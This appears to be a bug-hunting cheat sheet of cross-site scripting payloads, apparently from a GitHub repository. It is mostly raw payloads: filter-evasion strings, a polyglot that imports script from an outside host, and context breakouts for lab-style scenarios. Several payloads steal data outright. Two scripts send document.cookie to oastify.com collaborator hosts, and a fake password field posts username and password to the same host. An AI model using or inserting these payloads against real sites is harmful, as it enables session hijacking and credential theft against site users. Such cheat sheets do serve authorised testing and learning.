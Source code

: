 # Contents
* [Testing Alert](#Testing-Alert)
* [For html Injection](#For-html-Injection)
* [Angle brackets HTML-encoded bypass](#Angle-brackets-HTML-encoded-bypass)
* [Reflected XSS into a JavaScript string with single quote and backslash escaped](#Reflected-XSS-into-a-JavaScript-string-with-single-quote-and-backslash-escaped)
* [Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped](#Reflected-XSS-into-a-JavaScript-string-with-angle-brackets-and-double-quotes-HTML-encoded-and-single-quotes-escaped)
* [Tags and Attribute Block Bypass](#Tags-and-Attribute-Block-Bypass)
* [Reflected XSS with some SVG markup allowed](#Reflected-XSS-with-some-SVG-markup-allowed)
* [Reflected XSS in canonical link tag](#Reflected-XSS-in-canonical-link-tag)

## One Payload For Testing All Kinds of XSS
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
***Note**
  1. If < and > symbol reflecting in source code without encoding, XSS possible.
  2. If ' or " symbol reflecting in source code without encoding, XSS possible.

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
#### External source of payloads
https://github.com/payloadbox/xss-payload-list
##### For filter bypass
https://github.com/terjanq/Tiny-XSS-Payloads
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
##### XSS Filter Evasion Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
### For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
# Testing Alert
```js
<script>alert(1337)</script>
><script>alert(1337)</script>
<sCrIpt>alert(1337)</sCripT>
">cyborg71<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
<img src=x onerror=alert(1337)>
</script><img src=x onerror=alert(1337)>
<iframe src="javascript:alert(1337)">
';alert(1337)//
${alert(1337)}
<custom-tag onmouseover='alert(1337)'>
/?x=y'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
javascript:alert(1337)
y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
![Screenshot from 2024-06-22 21-24-55](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/a4b3b27e-3e78-438e-90c1-38f3986f5a79)

![Screenshot from 2024-06-22 21-30-13](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/cd6ea4c0-17df-448a-bc1a-caa4d293ee80)

![Screenshot from 2024-06-22 21-34-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/2938507e-12e8-438d-ad7d-d1ec7d65a963)

![Screenshot from 2024-06-22 21-36-45](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/06045884-2e15-4998-bfe6-057cf34dbe92)

![Screenshot from 2024-06-22 21-38-04](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/925458b2-619b-4545-a675-81ee043cd00c)

#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
## Angle brackets HTML-encoded bypass
### Reflected XSS into HTML attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5) <br>
#### Reflected XSS into a JavaScript string with single quote and backslash escaped
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.
```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.
![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
### Reflected XSS into HTML context with most tags and attributes blocked
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked. Bruteforce for getting allowed tags.
```
"><body onresize=alert(1337)>
```
### Reflected XSS into HTML context with all tags blocked except custom ones
###### Key Note
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
## Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.
![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X
#### For cookie grabbing
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
